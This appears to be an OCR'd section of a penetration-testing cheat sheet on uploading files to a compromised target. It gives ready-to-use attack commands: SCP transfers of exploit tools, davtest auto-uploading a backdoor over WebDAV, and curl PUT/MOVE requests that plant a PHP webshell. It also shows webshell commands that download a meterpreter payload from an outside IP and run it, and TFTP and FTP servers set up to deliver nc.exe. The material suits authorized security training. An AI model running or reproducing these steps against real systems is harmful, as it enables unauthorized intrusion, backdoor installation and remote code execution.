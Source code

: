 -   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP
    
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
        
        scp localfile username@$ip:~/Folder/
        
        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
        

    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
    
        `davtest -move -sendbd auto -url http://$ip`
      
        https://github.com/cldrn/davtest
        
        You can also upload a file using the PUT method with the curl command:
        
        `curl -T 'leetshellz.txt' 'http://$ip'`
        
        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe

    -   FTP  
        apt-get update && apt-get install pure-ftpd  
          
        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
          
        /etc/init.d/pure-ftpd restart

-   Packing Files
    -------------------------------------------------------------------------------------------------------------
